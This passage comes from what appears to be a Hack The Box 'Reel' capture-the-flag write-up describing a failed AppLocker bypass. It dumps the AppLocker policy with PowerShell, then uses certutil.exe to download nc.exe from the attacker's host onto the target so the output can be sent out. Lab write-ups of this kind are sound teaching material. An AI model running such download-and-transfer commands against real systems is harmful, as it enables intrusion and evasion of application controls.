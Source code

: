 ### AppLocker Bypass (Failed)

> For the following content, we took [this article](https://juggernaut-sec.com/applocker-bypass/) as a reference. 

Let's take a look at the AppLocker Policy:

`powershell -c "Get-ApplockerPolicy -Effective -Xml"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-32.png)

Since the output is too big, let's save it to a file:

`powershell -c "Get-ApplockerPolicy -Effective -Xml | Out-File -FilePath 'C:\ProgramData\output.xml'"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-33.png)

Now let's try transferring the output to our local machine to take a better look at it. We will use nc.exe to do so. 

We will first transfer the nc.exe file over to the target machine using certutil.exe:

`certutil.exe -urlcache -split -f http://10.10.14.36:8000/nc.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-21.png)

Unfortunately, we cannot use nc.exe to trasfer the output since running nc.exe is also blocked by the applocker:
